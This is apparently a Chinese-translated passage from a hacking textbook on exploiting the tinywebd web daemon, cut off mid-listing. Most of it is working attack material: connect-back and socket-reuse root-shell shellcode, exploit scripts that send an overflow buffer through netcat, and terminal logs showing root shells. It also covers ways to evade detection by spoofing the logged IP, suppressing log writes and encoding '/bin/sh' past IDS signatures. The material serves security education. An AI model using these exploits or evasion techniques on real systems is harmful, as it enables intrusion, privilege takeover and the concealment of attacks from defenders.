### loopback_shell_restore.s

```
BITS 32

   push BYTE 0x02    ; Fork is syscall #2
   pop eax
   int 0x80          ; After the fork, in child process eax == 0.
   test eax, eax
   jz child_process  ; In child process spawns a shell.

; In the parent process, restore tinywebd.
   lea ebp, [esp+0x68]  ; Restore EBP.
   push 0x08048fb7      ; Return address.
   ret                  ; Return

child_process:
; s = socket(2, 1, 0)
  push BYTE 0x66    ; Socketcall is syscall #102 (0x66)
  pop eax
  cdq               ; Zero out edx for use as a null DWORD later.
  xor ebx, ebx      ; ebx is the type of socketcall.
  inc ebx           ; 1 = SYS_SOCKET = socket()
  push edx          ; Build arg array: { protocol = 0,
  push BYTE 0x1     ;   (in reverse)     SOCK_STREAM = 1,
  push BYTE 0x2     ;                    AF_INET = 2 }
  mov ecx, esp      ; ecx = ptr to argument array
  int 0x80          ; After syscall, eax has socket file descriptor.
 .: [ Output trimmed; the rest is the same as loopback_shell.s. ] :.
```

以下列表显示了此 shellcode 的使用情况。使用多个作业而不是多个终端，因此将 netcat 监听器通过在命令末尾添加一个&符号发送到后台。在 shell 连接回来后，`fg`命令将监听器带回前台。然后通过按 CTRL-Z 挂起进程，返回到 BASH shell。您可能更容易使用多个终端来跟随，但了解作业控制对于您没有多个终端的奢侈情况是有用的。

```
reader@hacking:~/booksrc $ nasm loopback_shell_restore.s
reader@hacking:~/booksrc $ hexdump -C loopback_shell_restore
00000000  6a 02 58 cd 80 85 c0 74  0a 8d 6c 24 68 68 b7 8f  |j.X..t.l$hh.|
00000010  04 08 c3 6a 66 58 99 31  db 43 52 6a 01 6a 02 89  |..jfX.1.CRj.j.|
00000020  e1 cd 80 96 6a 66 58 43  68 7f bb bb 01 66 89 54  |..jfXCh..f.T|
00000030  24 01 66 68 7a 69 66 53  89 e1 6a 10 51 56 89 e1  |$.fhzifS.j.QV.|
00000040  43 cd 80 87 f3 87 ce 49  b0 3f cd 80 49 79 f9 b0  |C...I.?.Iy.|
00000050  0b 52 68 2f 2f 73 68 68  2f 62 69 6e 89 e3 52 89  |.Rh//shh/bin.R.|
00000060  e2 53 89 e1 cd 80                                 |.S..|
00000066
reader@hacking:~/booksrc $ ./tinywebd
Starting tiny web daemon.
reader@hacking:~/booksrc $ nc -l -p 31337 &
[1] 27279
reader@hacking:~/booksrc $ ./xtool_tinywebd_steath.sh loopback_shell_restore 127.0.0.1
target IP: 127.0.0.1
shellcode: loopback_shell_restore (102 bytes)
fake request: "GET / HTTP/1.1\x00" (15 bytes)
[Fake Request (15 b)] [NOP (299 b)] [shellcode (102 b)] [ret addr (128 b)]
localhost [127.0.0.1] 80 (www) open
reader@hacking:~/booksrc $ fg
nc -l -p 31337
whoami
root

[1]+  Stopped                 nc -l -p 31337
reader@hacking:~/booksrc $ ./webserver_id 127.0.0.1
The web server for 127.0.0.1 is Tiny webserver
reader@hacking:~/booksrc $ fg
nc -l -p 31337
whoami
root
```

使用此 shellcode，连接回的 root shell 由一个单独的子进程维护，而父进程继续提供 web 内容。

# 高级伪装

我们当前的隐蔽漏洞仅伪装了 web 请求；然而，IP 地址和时间戳仍然被写入日志文件。这种伪装会使攻击更难被发现，但它们并不是无形的。如果您的 IP 地址被写入可能保存多年的日志，可能会在未来引起麻烦。由于我们现在正在处理 tinyweb 守护进程的内部，我们应该能够更好地隐藏我们的存在。

## 伪造记录的 IP 地址

写入日志文件的 IP 地址来自`client_addr_ptr`，它被传递给`handle_connection()`。

### tinywebd.c 的代码段

```
void handle_connection(int sockfd, struct sockaddr_in *`client_addr_ptr,` int logfd) {
   unsigned char *ptr, request[500], resource[500], log_buffer[500];
   int fd, length;

   length = recv_line(sockfd, request);

   sprintf(log_buffer, "From %s:%d \"%s\"\t", inet_ntoa(`client_addr_ptr->sin_addr`),
ntohs(`client_addr_ptr->sin_port`), request);
```

要伪造 IP 地址，我们只需要注入我们自己的`sockaddr_in`结构，并用注入结构的地址覆盖`client_addr_ptr`。生成用于注入的`sockaddr_in`结构的最佳方式是编写一个小型的 C 程序来创建和转储该结构。以下源代码使用命令行参数构建结构，然后将结构数据直接写入文件描述符 1，即标准输出。

### addr_struct.c

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <netinet/in.h>
int main(int argc, char *argv[]) {
   struct sockaddr_in addr;
   if(argc != 3) {
      printf("Usage: %s <target IP> <target port>\n", argv[0]);
      exit(0);
   }
   addr.sin_family = AF_INET;
   addr.sin_port = htons(atoi(argv[2]));
   addr.sin_addr.s_addr = inet_addr(argv[1]);

   write(1, &addr, sizeof(struct sockaddr_in));
}
```

该程序可以用来注入一个`sockaddr_in`结构。下面的输出显示了程序被编译和执行的情况。

```
reader@hacking:~/booksrc $ gcc -o addr_struct addr_struct.c
reader@hacking:~/booksrc $ ./addr_struct 12.34.56.78 9090
##
   "8N_reader@hacking:~/booksrc $
reader@hacking:~/booksrc $ ./addr_struct 12.34.56.78 9090 | hexdump -C
00000000  02 00 23 82 0c 22 38 4e  00 00 00 00 f4 5f fd b7  |.#."8N..._.|
00000010
reader@hacking:~/booksrc $
```

为了将此集成到我们的利用中，在伪造请求之后但在 NOP sled 之前注入地址结构。由于伪造请求长度为 15 字节，而我们知道缓冲区从`0xbffff5c0`开始，因此伪造的地址将在`0xbfffff5cf`处注入。

```
reader@hacking:~/booksrc $ grep 0x xtool_tinywebd_steath.sh
RETADDR="\x24\xf6\xff\xbf" # at +100 bytes from buffer @ 0xbffff5c0
reader@hacking:~/booksrc $ gdb -q -batch -ex "p /x 0xbffff5c0 + 15"
$1 = 0xbffff5cf
reader@hacking:~/booksrc $
```

由于`client_addr_ptr`作为第二个函数参数传递，它将在返回地址后的堆栈上两个 dwords 处。下面的利用脚本注入一个伪造的地址结构并覆盖`client_addr_ptr`。

### xtool_tinywebd_spoof.sh

```
#!/bin/sh
# IP spoofing stealth exploitation tool for tinywebd

SPOOFIP="12.34.56.78"
SPOOFPORT="9090"

if [ -z "$2" ]; then # If argument 2 is blank
   echo "Usage: $0 <shellcode file> <target IP>"
   exit
fi
FAKEREQUEST="GET / HTTP/1.1\x00"
FR_SIZE=$(perl -e "print \"$FAKEREQUEST\"" | wc -c | cut -f1 -d ' ')
OFFSET=540
RETADDR="\x24\xf6\xff\xbf" # At +100 bytes from buffer @ 0xbffff5c0
FAKEADDR="\xcf\xf5\xff\xbf" # +15 bytes from buffer @ 0xbffff5c0
echo "target IP: $2"
SIZE=`wc -c $1 | cut -f1 -d ' '`
echo "shellcode: $1 ($SIZE bytes)"
echo "fake request: \"$FAKEREQUEST\" ($FR_SIZE bytes)"
ALIGNED_SLED_SIZE=$(($OFFSET+4 - (32*4) - $SIZE - $FR_SIZE - 16))

echo "[Fake Request $FR_SIZE] [spoof IP 16] [NOP $ALIGNED_SLED_SIZE] [shellcode $SIZE]
 [ret
addr 128] [*fake_addr 8]"
(perl -e "print \"$FAKEREQUEST\"";
 ./addr_struct "$SPOOF IP" "$SPOOFPORT";
 perl -e "print \"\x90\"x$ALIGNED_SLED_SIZE";
 cat $1;
perl -e "print \"$RETADDR\"x32 . \"$FAKEADDR\"x2 . \"\r\n\"") | nc -w 1 -v $2 80
```

解释这个利用脚本确切做什么的最好方法是使用 GDB 从内部观察 tinywebd。在下面的输出中，GDB 用于附加到正在运行的 tinywebd 进程，在溢出之前设置断点，并生成日志缓冲区的 IP 部分。

```
reader@hacking:~/booksrc $ ps aux | grep tinywebd
root     27264  0.0  0.0   1636   420 ?        Ss   20:47   0:00 ./tinywebd
reader   30648  0.0  0.0   2880   748 pts/2    R+   22:29   0:00 grep tinywebd
reader@hacking:~/booksrc $ gcc -g tinywebd.c
reader@hacking:~/booksrc $ sudo gdb -q—pid=27264 --symbols=./a.out

warning: not using untrusted file "/home/reader/.gdbinit"
Using host libthread_db library "/lib/tls/i686/cmov/libthread_db.so.1".
Attaching to process 27264
/cow/home/reader/booksrc/tinywebd: No such file or directory.
A program is being debugged already. Kill it? (y or n) n
Program not killed.
(gdb) list handle_connection
77      /* This function handles the connection on the passed socket from the
78       * passed client address and logs to the passed FD. The connection is
79       * processed as a web request, and this function replies over the connected
80       * socket. Finally, the passed socket is closed at the end of the function.
81       */
82      void handle_connection(int sockfd, struct sockaddr_in *client_addr_ptr, int logfd)
 {
83         unsigned char *ptr, request[500], resource[500], log_buffer[500];
84         int fd, length;
85
86         length = recv_line(sockfd, request);
(gdb)
87
88         sprintf(log_buffer, "From %s:%d \"%s\"\t", inet_ntoa(client_addr_ptr->sin_addr),
ntohs(client_addr_ptr->sin_port), request);
89
90         ptr = strstr(request, " HTTP/"); // Search for valid looking request.
91         if(ptr == NULL) { // Then this isn't valid HTTP
92            strcat(log_buffer, " NOT HTTP!\n");
93         } else {
94            *ptr = 0; // Terminate the buffer at the end of the URL.
95            ptr = NULL; // Set ptr to NULL (used to flag for an invalid request).
96            if(strncmp(request, "GET ", 4) == 0)  // Get request
(gdb) break 86
Breakpoint 1 at 0x8048fc3: file tinywebd.c, line 86.
(gdb) break 89
Breakpoint 2 at 0x8049028: file tinywebd.c, line 89.
(gdb) cont
Continuing.
```

然后，在另一个终端中，使用新的欺骗利用来在调试器中推进执行。

```
reader@hacking:~/booksrc $ ./xtool_tinywebd_spoof.sh mark_restore 127.0.0.1
target IP: 127.0.0.1
shellcode: mark_restore (53 bytes)
fake request: "GET / HTTP/1.1\x00" (15 bytes)
[Fake Request 15] [spoof IP 16] [NOP 332] [shellcode 53] [ret addr 128]
[*fake_addr 8]
localhost [127.0.0.1] 80 (www) open
reader@hacking:~/booksrc $
```

在调试终端中，第一个断点被触发。

```
Breakpoint 1, handle_connection (sockfd=9, client_addr_ptr=0xbffff810, logfd=3) at
tinywebd.c:86
86         length = recv_line(sockfd, request);
(gdb) bt
#0  handle_connection (sockfd=9, client_addr_ptr=0xbffff810, logfd=3) at tinywebd.c:86
#1  0x08048fb7 in main () at tinywebd.c:72
(gdb) print client_addr_ptr
$1 = (struct sockaddr_in *) 0xbffff810
(gdb) print *client_addr_ptr
$2 = {sin_family = 2, sin_port = 15284, sin_addr = {s_addr = 16777343},
sin_zero = "\000\000\000\000\000\000\000"}
(gdb) x/x &client_addr_ptr
0xbffff7e4:     0xbffff810
(gdb) x/24x request + 500
0xbffff7b4:     0xbffff624      0xbffff624      0xbffff624      0xbffff624
0xbffff7c4:     0xbffff624      0xbffff624      0x0804b030      0xbffff624
0xbffff7d4:     0x00000009      0xbffff848      0x08048fb7      0x00000009
`0xbffff7e4:     0xbffff810`      0x00000003      0xbffff838      0x00000004
0xbffff7f4:     0x00000000      0x00000000      0x08048a30      0x00000000
0xbffff804:     0x0804a8c0      0xbffff818      0x00000010      0x3bb40002
(gdb) cont
Continuing.

Breakpoint 2, handle_connection (sockfd=-1073744433, client_addr_ptr=0xbffff5cf, 
logfd=2560)
at tinywebd.c:90
90         ptr = strstr(request, " HTTP/"); // Search for valid-looking request.
(gdb) x/24x request + 500
0xbffff7b4:     0xbffff624      0xbffff624      0xbffff624      0xbffff624
0xbffff7c4:     0xbffff624      0xbffff624      0xbffff624      0xbffff624
0xbffff7d4:     0xbffff624      0xbffff624      0xbffff624      0xbffff5cf
`0xbffff7e4:     0xbffff5cf`      0x00000a00      0xbffff838      0x00000004
0xbffff7f4:     0x00000000      0x00000000      0x08048a30      0x00000000
0xbffff804:     0x0804a8c0      0xbffff818      0x00000010      0x3bb40002
(gdb) print client_addr_ptr
$3 = (struct sockaddr_in *) 0xbffff5cf
(gdb) print client_addr_ptr
$4 = (struct sockaddr_in *) 0xbffff5cf
(gdb) print *client_addr_ptr
$5 = {sin_family = 2, sin_port = 33315, sin_addr = {s_addr = 1312301580},
sin_zero = "\000\000\000\000_
(gdb) x/s log_buffer
0xbffff1c0:      "From 12.34.56.78:9090 \"GET / HTTP/1.1\"\t"
(gdb)
```

在第一个断点处，`client_addr_ptr`显示为位于`0xbffff7e4`并指向`0xbffff810`。这在返回地址后的堆栈上的内存中找到，距离返回地址两个 dwords。第二个断点是在覆盖之后，因此`client_addr_ptr`在`0xbffff7e4`处被显示为被覆盖为注入的`sockaddr_in`结构地址`0xbffff5cf`。从这里，我们可以在写入日志之前查看`log_buffer`以验证地址注入是否成功。

## 无日志利用

理想情况下，我们希望完全不留下任何痕迹。在 LiveCD 的设置中，技术上你可以在获得 root shell 后直接删除日志文件。然而，让我们假设这个程序是安全基础设施的一部分，其中日志文件被镜像到一个具有最小访问权限或甚至可能是一个行式打印机的安全日志服务器。在这些情况下，在事后删除日志文件不是一种选择。tinyweb 守护进程中的`timestamp()`函数试图通过直接写入一个打开的文件描述符来提高安全性。我们无法阻止调用此函数，也无法撤销它对日志文件所做的写入。这将是一个相当有效的对策；然而，它的实现并不好。实际上，在前一个利用中，我们偶然发现了这个问题。

尽管`logfd`是一个全局变量，但它也被作为函数参数传递给`handle_connection()`。从功能上下文的讨论中，你应该记得这会创建另一个具有相同名称的堆栈变量，`logfd`。由于这个参数在堆栈上紧接在`client_addr_ptr`之后，它被 null 终止符和在利用缓冲区末尾发现的额外的`0x0a`字节部分覆盖。

```
(gdb) x/xw &client_addr_ptr
0xbffff7e4:     0xbffff5cf
(gdb) x/xw &logfd
0xbffff7e8:     0x00000a00
(gdb) x/4xb &logfd
0xbffff7e8:     0x00    0x0a    0x00    0x00
(gdb) x/8xb &client_addr_ptr
0xbffff7e4:     0xcf    0xf5    0xff    0xbf    0x00    0x0a    0x00    0x00
(gdb) p logfd
$6 = 2560
(gdb) quit
The program is running.  Quit anyway (and detach it)? (y or n) y
Detaching from program: , process 27264
reader@hacking:~/booksrc $ sudo kill 27264
reader@hacking:~/booksrc $
```

使用 strace 快速探索这个效果。在下面的输出中，strace 使用 `-p` 命令行参数附加到一个正在运行的过程。`-e trace=write` 参数告诉 strace 只查看写入调用。再次使用另一个终端中的伪造漏洞利用工具来连接并推进执行。

```
reader@hacking:~/booksrc $ ./tinywebd
Starting tiny web daemon.
reader@hacking:~/booksrc $ ps aux | grep tinywebd
root       478  0.0  0.0   1636   420 ?        Ss   23:24   0:00 ./tinywebd
reader     525  0.0  0.0   2880   748 pts/1    R+   23:24   0:00 grep tinywebd
reader@hacking:~/booksrc $ sudo strace -p 478 -e trace=write
Process 478 attached - interrupt to quit
write(2560, "09/19/2007 23:29:30> ", 21) = -1 EBADF (Bad file descriptor)
write(2560, "From 12.34.56.78:9090 \"GET / HTT".., 47) = -1 EBADF (Bad file descriptor)
Process 478 detached
reader@hacking:~/booksrc $
```

这个输出清楚地显示了尝试写入日志文件失败的情况。通常情况下，我们无法覆盖 `logfd` 变量，因为 `client_addr_ptr` 在路上。粗心大意地篡改这个指针通常会导致崩溃。但既然我们已经确保这个变量指向有效的内存（我们注入的伪造地址结构），我们就自由地覆盖它之后的变量。由于 tinyweb 守护进程将标准输出重定向到 /dev/null，下一个漏洞利用脚本将覆盖传递的 `logfd` 变量，使其为 `1`，用于标准输出。这仍然会阻止条目写入日志文件，但方式更加优雅——没有错误。

### xtool_tinywebd_silent.sh

```
#!/bin/sh
# Silent stealth exploitation tool for tinywebd
#    also spoofs IP address stored in memory

SPOOFIP="12.34.56.78"
SPOOFPORT="9090"

if [ -z "$2" ]; then # If argument 2 is blank
   echo "Usage: $0 <shellcode file> <target IP>"
   exit
fi
FAKEREQUEST="GET / HTTP/1.1\x00"
FR_SIZE=$(perl -e "print \"$FAKEREQUEST\"" | wc -c | cut -f1 -d ' ')
OFFSET=540
RETADDR="\x24\xf6\xff\xbf" # At +100 bytes from buffer @ 0xbffff5c0
FAKEADDR="\xcf\xf5\xff\xbf" # +15 bytes from buffer @ 0xbffff5c0
echo "target IP: $2"
SIZE=`wc -c $1 | cut -f1 -d ' '`
echo "shellcode: $1 ($SIZE bytes)"
echo "fake request: \"$FAKEREQUEST\" ($FR_SIZE bytes)"
ALIGNED_SLED_SIZE=$(($OFFSET+4 - (32*4) - $SIZE - $FR_SIZE - 16))

echo "[Fake Request $FR_SIZE] [spoof IP 16] [NOP $ALIGNED_SLED_SIZE] [shellcode $SIZE] 
[ret
addr 128] [*fake_addr 8]"
(perl -e "print \"$FAKEREQUEST\"";
 ./addr_struct "$SPOOFIP" "$SPOOFPORT";
 perl -e "print \"\x90\"x$ALIGNED_SLED_SIZE";
 cat $1;
perl -e "print \"$RETADDR\"x32 . \"$FAKEADDR\"x2 . \"\x01\x00\x00\x00\r\n\"") | nc -w 1
 -v $2
80
```

当使用此脚本时，漏洞利用是完全静默的，并且不会将任何内容写入日志文件。

```
reader@hacking:~/booksrc $ sudo rm /Hacked
reader@hacking:~/booksrc $ ./tinywebd
Starting tiny web daemon..
reader@hacking:~/booksrc $ ls -l /var/log/tinywebd.log
-rw------- 1 root reader 6526 2007-09-19 23:24 /var/log/tinywebd.log
reader@hacking:~/booksrc $ ./xtool_tinywebd_silent.sh mark_restore 127.0.0.1
target IP: 127.0.0.1
shellcode: mark_restore (53 bytes)
fake request: "GET / HTTP/1.1\x00" (15 bytes)
[Fake Request 15] [spoof IP 16] [NOP 332] [shellcode 53] [ret addr 128] [*fake_addr 8]
localhost [127.0.0.1] 80 (www) open
reader@hacking:~/booksrc $ ls -l /var/log/tinywebd.log
-rw------- 1 root reader 6526 2007-09-19 23:24 /var/log/tinywebd.log
reader@hacking:~/booksrc $ ls -l /Hacked
-rw------- 1 root reader 0 2007-09-19 23:35 /Hacked
reader@hacking:~/booksrc $
```

注意日志文件的大小和访问时间保持不变。使用这种技术，我们可以利用 tinywebd 而不会在日志文件中留下任何痕迹。此外，写入调用执行得干净利落，因为所有内容都写入到 /dev/null。这通过下面的输出中的 strace 显示出来，当在另一个终端中运行静默漏洞利用工具时。

```
reader@hacking:~/booksrc $ ps aux | grep tinywebd
root       478  0.0 0.0    1636   420 ?        Ss   23:24   0:00 ./tinywebd
reader    1005  0.0 0.0    2880   748 pts/1    R+   23:36   0:00 grep tinywebd
reader@hacking:~/booksrc $ sudo strace -p 478 -e trace=write
Process 478 attached - interrupt to quit
write(1, "09/19/2007 23:36:31> ", 21)   = 21
write(1, "From 12.34.56.78:9090 \"GET / HTT".., 47) = 47
Process 478 detached
reader@hacking:~/booksrc $
```

# 整个基础设施

总是如此，细节可能隐藏在更大的画面中。单个主机通常存在于某种基础设施中。如入侵检测系统（IDS）和入侵预防系统（IPS）之类的对策可以检测异常网络流量。即使是路由器和防火墙上的简单日志文件也可能揭示出异常连接，这些连接表明了入侵。特别是，我们用于连接回 shellcode 的端口 31337 是一个明显的红旗。我们可以将其更改为看起来不那么可疑的端口；然而，仅仅有一个 web 服务器打开出站连接本身就可能是红旗。一个高度安全的设施甚至可能配置了防火墙出口过滤器来防止出站连接。在这些情况下，打开新的连接要么是不可能的，要么会被检测到。

## Socket 重用

在我们的情况下，实际上没有必要打开一个新的连接，因为我们已经从网络请求中获得了打开的套接字。由于我们在 tinyweb 守护进程内部捣鼓，通过一点调试，我们可以重用现有的套接字来获取 root shell。这防止了额外的 TCP 连接被记录，并允许在目标主机无法打开出站连接的情况下进行利用。请查看下面的 tinywebd.c 源代码。

### tinywebd.c 的摘录

```
   while(1) { // Accept loop
      sin_size = sizeof(struct sockaddr_in);
      new_sockfd = accept(sockfd, (struct sockaddr *)&client_addr, &sin_size);
      if(new_sockfd == -1)
         fatal("accepting connection");

      handle_connection(new_sockfd, &client_addr, logfd);
   }
   return 0;
}

/* This function handles the connection on the passed socket from the
 * passed client address and logs to the passed FD. The connection is
 * processed as a web request, and this function replies over the connected
 * socket. Finally, the passed socket is closed at the end of the function.
 */
void handle_connection(int sockfd, struct sockaddr_in *client_addr_ptr, int logfd) {
   unsigned char *ptr, request[500], resource[500], log_buffer[500];
   int fd, length;

   length = recv_line(sockfd, request);
```

不幸的是，传递给 `handle_connection()` 的 `sockfd` 将不可避免地被覆盖，因此我们可以覆盖 `logfd`。这种覆盖发生在我们通过 shellcode 控制程序之前，所以无法恢复 `sockfd` 的原始值。幸运的是，`main()` 函数在 `new_sockfd` 中保留了套接字的文件描述符的另一个副本。

```
reader@hacking:~/booksrc $ ps aux | grep tinywebd
root       478  0.0  0.0   1636   420 ?        Ss   23:24   0:00 ./tinywebd
reader    1284  0.0  0.0   2880   748 pts/1    R+   23:42   0:00 grep tinywebd
reader@hacking:~/booksrc $ gcc -g tinywebd.c
reader@hacking:~/booksrc $ sudo gdb -q-pid=478 --symbols=./a.out
warning: not using untrusted file "/home/reader/.gdbinit"
Using host libthread_db library "/lib/tls/i686/cmov/libthread_db.so.1".
Attaching to process 478
/cow/home/reader/booksrc/tinywebd: No such file or directory.
A program is being debugged already. Kill it? (y or n) n
Program not killed.
(gdb) list handle_connection
77      /* This function handles the connection on the passed socket from the
78       * passed client address and logs to the passed FD. The connection is
79       * processed as a web request, and this function replies over the connected
80       * socket. Finally, the passed socket is closed at the end of the function.
81       */
82      void handle_connection(int sockfd, struct sockaddr_in *client_addr_ptr, int logfd)
 {
83         unsigned char *ptr, request[500], resource[500], log_buffer[500];
84         int fd, length;
85
86         length = recv_line(sockfd, request);
(gdb) break 86
Breakpoint 1 at 0x8048fc3: file tinywebd.c, line 86.
(gdb) cont
Continuing.
```

在设置断点并继续程序之后，另一个终端中的静默利用工具被用来连接并推进执行。

```
Breakpoint 1, handle_connection (sockfd=13, client_addr_ptr=0xbffff810, logfd=3) at
tinywebd.c:86
86         length = recv_line(sockfd, request);
(gdb) x/x &sockfd
0xbffff7e0:     0x0000000d
(gdb) x/x &new_sockfd
No symbol "new_sockfd" in current context.
(gdb) bt
#0  handle_connection (sockfd=13, client_addr_ptr=0xbffff810, logfd=3) at tinywebd.c:86
#1  0x08048fb7 in main () at tinywebd.c:72
(gdb) select-frame 1
(gdb) x/x &new_sockfd
0xbffff83c:     0x0000000d
(gdb) quit
The program is running.  Quit anyway (and detach it)? (y or n) y
Detaching from program: , process 478
reader@hacking:~/booksrc $
```

这个调试输出显示 `new_sockfd` 存储在 main 函数的栈帧中的 `0xbffff83c`。利用这个信息，我们可以创建使用此处存储的套接字文件描述符的 shellcode，而不是创建新的连接。

虽然我们可以直接使用这个地址，但有许多小事情可能会改变栈内存的位置。如果发生这种情况，并且 shellcode 使用硬编码的栈地址，则利用将失败。为了使 shellcode 更可靠，可以借鉴编译器处理栈变量的方式。如果我们使用相对于 ESP 的地址，那么即使栈移动了一点点，`new_sockfd` 的地址仍然会正确，因为从 ESP 的偏移量将是相同的。如您从使用 `mark_break` shellcode 进行调试中记得的那样，ESP 是 `0xbffff7e0`。使用这个值作为 ESP，偏移量显示为 `0x5c` 字节。

```
reader@hacking:~/booksrc $ gdb -q
(gdb) print /x 0xbffff83c - 0xbffff7e0
$1 = 0x5c
(gdb)
```

以下 shellcode 重新使用现有的套接字以用于 root shell。

### socket_reuse_restore.s

```
BITS 32

   push BYTE 0x02    ; Fork is syscall #2
   pop eax
   int 0x80          ; After the fork, in child process eax == 0.
   test eax, eax
   jz child_process  ; In child process spawns a shell.

      ; In the parent process, restore tinywebd.
   lea ebp, [esp+0x68]  ; Restore EBP.
   push 0x08048fb7      ; Return address.
   ret                  ; Return.

child_process:
      ; Re-use existing socket.
   lea edx, [esp+0x5c]  ; Put the address of new_sockfd in edx.
   mov ebx, [edx]       ; Put the value of new_sockfd in ebx.
   push BYTE 0x02
   pop ecx          ; ecx starts at 2.
   xor eax, eax
   xor edx, edx
dup_loop:
   mov BYTE al, 0x3F ; dup2  syscall #63
   int 0x80          ; dup2(c, 0)
   dec ecx           ; Count down to 0.
   jns dup_loop      ; If the sign flag is not set, ecx is not negative.

; execve(const char *filename, char *const argv [], char *const envp[])
   mov BYTE al, 11   ; execve  syscall #11
   push edx          ; push some nulls for string termination.
   push 0x68732f2f   ; push "//sh" to the stack.
   push 0x6e69622f   ; push "/bin" to the stack.
   mov ebx, esp      ; Put the address of "/bin//sh" into ebx, via esp.
   push edx          ; push 32-bit null terminator to stack.
   mov edx, esp      ; This is an empty array for envp.
   push ebx          ; push string addr to stack above null terminator.
   mov ecx, esp      ; This is the argv array with string ptr.
   int 0x80          ; execve("/bin//sh", ["/bin//sh", NULL], [NULL])
```

为了有效地使用这个 shellcode，我们需要另一个利用工具，它允许我们发送利用缓冲区，但保持套接字用于进一步的 I/O。这个第二个利用脚本在利用缓冲区的末尾添加了一个额外的 `cat -` 命令。破折号参数表示标准输入。在标准输入上运行 cat 本身可能有些无意义，但当命令被管道传输到 netcat 时，这实际上将标准输入和输出绑定到 netcat 的网络套接字。下面的脚本连接到目标，发送利用缓冲区，然后保持套接字打开并从终端获取进一步的输入。这是通过对静默利用工具进行少量修改（以粗体显示）来实现的。

### xtool_tinywebd_reuse.sh

```
#!/bin/sh
# Silent stealth exploitation tool for tinywebd
#    also spoofs IP address stored in memory
`#    reuses existing socket-use socket_reuse shellcode`

SPOOFIP="12.34.56.78"
SPOOFPORT="9090"

if [ -z "$2" ]; then  # if argument 2 is blank
   echo "Usage: $0 <shellcode file> <target IP>"
   exit
fi
FAKEREQUEST="GET / HTTP/1.1\x00"
FR_SIZE=$(perl -e "print \"$FAKEREQUEST\"" | wc -c | cut -f1 -d ' ')
OFFSET=540
RETADDR="\x24\xf6\xff\xbf" # at +100 bytes from buffer @ 0xbffff5c0
FAKEADDR="\xcf\xf5\xff\xbf" # +15 bytes from buffer @ 0xbffff5c0
echo "target IP: $2"
SIZE=`wc -c $1 | cut -f1 -d ' '`
echo "shellcode: $1 ($SIZE bytes)"
echo "fake request: \"$FAKEREQUEST\" ($FR_SIZE bytes)"
ALIGNED_SLED_SIZE=$(($OFFSET+4 - (32*4) - $SIZE - $FR_SIZE - 16))

echo "[Fake Request $FR_SIZE] [spoof IP 16] [NOP $ALIGNED_SLED_SIZE] [shellcode $SIZE]
 [ret
addr 128] [*fake_addr 8]"
(perl -e "print \"$FAKEREQUEST\"";
 ./addr_struct "$SPOOFIP" "$SPOOFPORT";
 perl -e "print \"\x90\"x$ALIGNED_SLED_SIZE";
 cat $1;
perl -e "print \"$RETADDR\"x32 . \"$FAKEADDR\"x2 . \"\x01\x00\x00\x00\r\n\"";
`cat` -;) | nc -v $2 80
```

当这个工具与 socket_reuse_restore shellcode 一起使用时，将使用用于 web 请求的相同套接字提供 root shell。下面的输出演示了这一点。

```
reader@hacking:~/booksrc $ nasm socket_reuse_restore.s
reader@hacking:~/booksrc $ hexdump -C socket_reuse_restore
00000000  6a 02 58 cd 80 85 c0 74  0a 8d 6c 24 68 68 b7 8f  |j.X..t.l$hh.|
00000010  04 08 c3 8d 54 24 5c 8b  1a 6a 02 59 31 c0 31 d2  |..T$\.j.Y1.1.|
00000020  b0 3f cd 80 49 79 f9 b0  0b 52 68 2f 2f 73 68 68  |.?.Iy..Rh//shh|
00000030  2f 62 69 6e 89 e3 52 89  e2 53 89 e1 cd 80        |/bin.R.S..|
0000003e
reader@hacking:~/booksrc $ ./tinywebd
Starting tiny web daemon.
reader@hacking:~/booksrc $ ./xtool_tinywebd_reuse.sh socket_reuse_restore 127.0.0.1
target IP: 127.0.0.1
shellcode: socket_reuse_restore (62 bytes)
fake request: "GET / HTTP/1.1\x00" (15 bytes)
[Fake Request 15] [spoof IP 16] [NOP 323] [shellcode 62] [ret addr 128] [*fake_addr 8]
localhost [127.0.0.1] 80 (www) open
whoami
root
```

通过重新使用现有的套接字，这个利用甚至更安静，因为它不会创建任何额外的连接。更少的连接意味着更少的异常，这有助于检测任何对策。

# 货物走私

如前所述的网络 IDS 或 IPS 系统不仅可以跟踪连接，还可以检查数据包本身。通常，这些系统正在寻找表示攻击的图案。例如，一个简单的规则，寻找包含字符串`/bin/sh`的数据包，会捕获很多包含 shellcode 的数据包。我们的`/bin/sh`字符串已经稍微被混淆了，因为它以四个字节的块推送到堆栈，但网络 IDS 也可以寻找包含字符串`/bin`和`//sh`的数据包。

这类网络 IDS 签名可以相当有效地捕捉到使用从互联网下载的漏洞的脚本小子。然而，它们很容易被自定义的 shellcode 绕过，这些 shellcode 隐藏了任何明显的字符串。

## 字符串编码

为了隐藏字符串，我们将简单地给字符串中的每个字节加 5。然后，在字符串被推送到堆栈后，shellcode 将从堆栈上的每个字符串字节减去 5。这样就可以在堆栈上构建所需的字符串，以便在 shellcode 中使用，同时在传输过程中保持其隐藏。下面的输出显示了编码字节的计算。

```
reader@hacking:~/booksrc $ echo "/bin/sh" | hexdump -C
00000000  2f 62 69 6e 2f 73 68 0a                           |/bin/sh.|
00000008
reader@hacking:~/booksrc $ gdb -q
(gdb) print /x 0x0068732f + 0x05050505
$1 = 0x56d7834
(gdb) print /x 0x6e69622f + 0x05050505
$2 = 0x736e6734
(gdb) quit
reader@hacking:~/booksrc $
```

以下 shellcode 将这些编码的字节推送到堆栈，并在循环中解码它们。此外，还使用了两个`int3`指令在解码前后在 shellcode 中设置断点。这是使用 GDB 查看正在发生的事情的一种简单方法。

### encoded_sockreuserestore_dbg.s

```
BITS 32

   push BYTE 0x02    ; Fork is syscall #2.
   pop eax
   int 0x80          ; After the fork, in child process eax == 0.
   test eax, eax
   jz child_process  ; In child process spawns a shell.

      ; In the parent process, restore tinywebd.
   lea ebp, [esp+0x68]  ; Restore EBP.
   push 0x08048fb7      ; Return address.
   ret                  ; Return

child_process:
    ; Re-use existing socket.
   lea edx, [esp+0x5c]  ; Put the address of new_sockfd in edx.
   mov ebx, [edx]       ; Put the value of new_sockfd in ebx.
   push BYTE 0x02
   pop ecx          ; ecx starts at 2.
   xor eax, eax
dup_loop:
   mov BYTE al, 0x3F ; dup2  syscall #63
   int 0x80          ; dup2(c, 0)
   dec ecx           ; Count down to 0.
   jns dup_loop      ; If the sign flag is not set, ecx is not negative

; execve(const char *filename, char *const argv [], char *const envp[])
   mov BYTE al, 11   ; execve  syscall #11
   push 0x056d7834   ; push "/sh\x00" encoded +5 to the stack.
